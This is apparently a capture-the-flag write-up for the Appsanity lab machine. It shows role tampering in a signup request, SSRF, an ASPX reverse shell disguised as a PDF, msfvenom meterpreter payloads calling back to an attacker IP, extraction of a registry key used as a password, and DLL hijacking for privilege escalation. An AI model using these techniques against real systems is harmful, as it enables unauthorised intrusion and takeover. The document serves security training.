## 1. Enumeration

- We will start our enumeration with `rustscan`:

```
$ rustscan --ulimit=5000 --range=1-65535 -a 10.10.11.238 -- -A -sC
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.

[~] Starting Script(s)
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  http       syn-ack Microsoft IIS httpd 10.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://meddigi.htb/
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  https?     syn-ack
7680/tcp open  pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## 2. Foothold

- Let's add an entry for `meddigi.htb` in `/etc/hosts` file with the corresponding IP address to be able to
access this domain in the browser:


- Let's create an account and start exploring the website.



```
POST /Signup/SignUp HTTP/2
Host: meddigi.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Name=a&LastName=a&Email=a%40a.com&Password=admin1234&ConfirmPassword=admin1234&DateOfBirth=2001-11-11
&PhoneNumber=0123123123&Country=vn&Acctype=1&__RequestVerificationToken=CfDJ8JatmW0QBFhNjnTxvRtK0g3wq
rNgxID6JcYBlQpz2--gnlUQv-AtYorvMg37Ule8QgcO1mWrknKLcg57g3cuS4Usl7qYW7x1uQoFCe3C-6kCuU4qM_4qigXJ2IkTDk
_Nd76VBGippu5rTKL6-HArh54
```
- Note that our account has role `Patient`, which probably match the `Acctype=1`. Try changing it to 2 to see what happen:



- So we got role `Doctor`, but how can we use it? Maybe there is a portal for doctors hidden somewhere. Let's look for subdomains using `gobuster`:

```
gobuster vhost -u https://meddigi.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 20 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://meddigi.htb
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: portal.meddigi.htb Status: 200 [Size: 2976]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

- We will similarly add the new-found subdomain to `/etc/hosts`:



- This looks like it. Let's copy the JWT token of the doctor's account and add it to this page. After that, we will reload the page and gain access to the portal:



- We can go to `Issue Prescription` in the side menu and see the mail and link field that generates the preview:



- Typically, websites that have a 'link' field allowing user input are often susceptible to Server-Side Request Forgery (SSRF). We can now proceed to verify this vulnerability:
  - Try entering `http://127.0.0.1:8080`:





- We get a link: https://portal.meddigi.htb/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf. Upon clicking that, we are automatically 
redirected to the Profile page. This redirection suggests that the injected payload has been triggered, confirming the presence of a SSRF vulnerability on the website.

- It's also worth noting that the menu `Upload Report` allows you to upload PDF files. And with the SSRF we found earlier, we can craft an attack using this sequence:
  - Upload a reverse shell in the `Upload Report` page
  - Get the preview link in the `Issue Prescription` page
  - Change the host in that link to 127.0.0.1 (loop back address)
  - Enter that link in the `Prescription Link` field to trigger the payload
  - Set up a `nc` listener to receive the connection

- First, let's upload a valid PDF file to pull out its initial signature, it somewhat look like `%PDF-1.7`.

- We take the reverse shell at https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspxand and change the IP & port to our own.

- At the beginning of the shell we write the metadata from a valid PDF, which we defined above, after which we simply upload the resulting file to the `Upload Report` page.

- Back to `Issue Prescriptions`, we look at the list of files and see our shell:

```
https://portal.meddigi.htb/ViewReport.aspx?file=b8cf46f5-bb42-4ba3-ba5f-af15d07e5a12_r.aspx
```

- We change the domain in the link to http://127.0.0.1:8080:

```
http://127.0.0.1:8080/ViewReport.aspx?file=b8cf46f5-bb42-4ba3-ba5f-af15d07e5a12_r.aspx
```

- Finally, launch netcat and send the link, after which we will receive the connection:



- User flag can be found at `c:\Users\svc_exampanel\Desktop\user.txt`: 

```
dc54338deda488372aa908b40ac97d15
```

## 3. Privilege Escalation

- To download and upload files to the target server with ease, let's create a reverse shell connection using `metasploit`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.112 LPORT=4242 -f exe > shell.exe
```

- This will generate the reverse shell as `shell.exe`. Now we can host the file and download it from the target machine in the netcat session we obtained earlier:



- Now let's set up our listener:



- Execute the `shell.exe` and we will receive the connection:



- Check `netstat` and see that there is an application running on port 100. We will forward that to our local machine (port 10100).

```
meterpreter> portfwd add -l 10100 -p 100 -r 127.0.0.1
```

- Let's see what functionality there is:

```
$ nc 127.0.0.1 10100
Reports Management administrative console. Type "help" to view available commands.
> help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
> backup
Backup operation completed successfully.
```

- Upon examine the `inetpub` folder, we found an interesting file located in `C:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll`.

- Let's download that file and reverse it using `dnspy`:



- Here, we can see the path in the registry where the encryption key is located. We can pull it out using:

```
REG QUERY HKLM\Software\Meddigi /v EncKey
```

```
c:\inetpub\ExaminationPanel\ExaminationPanel\bin>REG QUERY HKLM\Software\Meddigi /v EncKey
REG QUERY HKLM\Software\Meddigi /v EncKey

HKEY_LOCAL_MACHINE\Software\Meddigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

- Now we can connect to the target machine as `devdoc` using `evil-winrm` and the key we just found:

```
evil-winrm -i 10.10.11.238 -u devdoc -p '1g0tTh3R3m3dy!!'
```



- After exploring around, we found a directory: `C:\Program Files\ReportManagement`, which has a binary file: `ReportManagement.exe`

- Upon reversing this binary, we know that it load a .dll file from `C:\Program Files\ReportManagement\Libraries\externalupload.dll`:





- Let's check our permissions to this file:



- Sweet, we can re-write this file as `devdoc`. Let's create our reverse shell using `msfevnom`:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.112 LPORT=5555 -f dll -o externalupload.dll
```

- Let's rename the old one and upload ours instead:



- Finally, going back to our proxychains netcat (`nc 127.0.0.1 10100`) and enter `upload pwn` to trigger the payload:



- Root flag:




---
## Reference

- https://juggernaut-sec.com/windows-file-transfers-for-hackers/
- https://www.greyhathacker.net/?p=738
- https://www.geeksforgeeks.org/how-to-use-a-reverse-shell-in-metasploit-in-kali-linux/
- https://blog-kiberdruzhinnik-ru.translate.goog/2023/10/hackthebox-appsanity/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=vi&_x_tr_pto=wapp
- https://dl.packetstormsecurity.net/papers/attack/Metasploit_pivot_n_portfwd.pdf